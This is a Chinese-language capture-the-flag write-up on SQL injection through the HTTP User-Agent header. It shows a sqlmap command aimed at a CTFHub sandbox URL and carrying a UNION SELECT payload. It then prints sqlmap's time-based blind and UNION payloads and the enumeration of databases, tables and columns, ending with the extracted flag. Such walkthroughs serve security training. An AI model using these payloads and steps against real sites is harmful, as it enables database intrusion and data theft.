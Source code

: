 ```yaml
---
title: UA注入
date: 2024-11-23T23:07:37Z
lastmod: 2024-11-24T00:02:15Z
---
```


# UA注入

## 

UA是什么？UA也称User-Agent，当用户发起一个请求时，网站会通过判断 UA的数据，如（名称，版本，浏览器内核，内核版本）等等，来给不同的操作系统，不同的浏览器发送不同的页面

一般来说，普通的 SQL 注入是对 URL 及参数进行的，但这里攻击者却将 SQL 查询语句隐藏在了 HTTP 头部的User-Agent字段之中 ，也称UA注入

SQLMap 的 User-Agent (UA) 注入是一种利用应用程序在处理 HTTP User-Agent 头部时存在的 SQL 注入漏洞的技术。攻击者通过修改 User-Agent 头部中的数据来注入恶意 SQL 代码，从而获取数据库信息或执行其他恶意操作。

**如何利用 SQLMap 进行 UA 注入：**

SQLMap 本身并不直接支持“UA 注入”作为一种独立的注入类型。 它主要关注参数化的 SQL 注入。然而，如果一个应用程序的 User-Agent 头部被不安全地处理，导致其值被包含在 SQL 查询中，那么 SQLMap 可以用来测试和利用这个漏洞。 你需要告诉 SQLMap 将 User-Agent 头部作为测试参数。

步骤如下：

1. **识别潜在漏洞：**  首先，你需要确定目标应用程序是否存在 User-Agent 头部处理不当的漏洞。这通常需要进行手动测试或使用其他工具进行扫描。 例如，你可以尝试修改 User-Agent 头部，观察应用程序的响应是否发生变化，或者是否出现错误信息。
2. **使用 SQLMap 进行测试：**  一旦你确定存在潜在漏洞，可以使用 SQLMap 进行测试。 关键在于使用 `--user-agent`​ 参数指定 User-Agent 头部，并使用 `-p`​ 参数指定 User-Agent 作为测试参数。 由于 User-Agent 通常不是一个标准的请求参数，你可能需要一些额外的技巧。  
    例如：

    ```
    sqlmap -u "http://challenge-1cceef5ca6ef24ec.sandbox.ctfhub.com:10800/" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'+UNION+SELECT+1,2,3--" -p "User-Agent"
    ```

    在这个例子中：

    * ​`-u "http://target.com/page.php"`​ 指定目标 URL。
    * ​`--user-agent="..."`​ 设置 User-Agent 头部，其中包含一个简单的 UNION SELECT 测试语句。 你需要根据具体情况修改注入语句。
    * ​`-p "User-Agent"`​ 告诉 SQLMap 将 User-Agent 头部作为测试参数。
3. **分析结果：**  SQLMap 将尝试不同的注入技术，并根据结果判断是否存在漏洞。 如果 SQLMap 发现漏洞，它将提供有关数据库的信息，例如数据库类型、版本、用户等。

‍

```shell
---
Parameter: User-Agent (User-Agent)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.9) Gecko/20071103 Firefox/2.0.0.9 (Swiftfox) AND (SELECT 5455 FROM (SELECT(SLEEP(5)))vwyE)# uOgB

    Type: UNION query
    Title: Generic UNION query (random number) - 2 columns
    Payload: -3044 UNION ALL SELECT CONCAT(0x717a787671,0x436c6f7263544a7473717063674f6742757550596162746662686b566368784f6d79775567594974,0x7170707671),3573-- -
---
```

```shell
available databases [4]:                                                                                             
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

```shell
Database: sqli                                                                                                       
[2 tables]
+------------+
| htlcwkgzgr |
| news       |
+------------+
```

```shell
Database: sqli
Table: htlcwkgzgr
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| hhuhfrudir | varchar(100) |
+------------+--------------+
```

```shell
Database: sqli
Table: htlcwkgzgr
[1 entry]
+----------------------------------+
| hhuhfrudir                       |
+----------------------------------+
| ctfhub{0d92a40284dade61e614dd4d} |
+----------------------------------+
```

‍
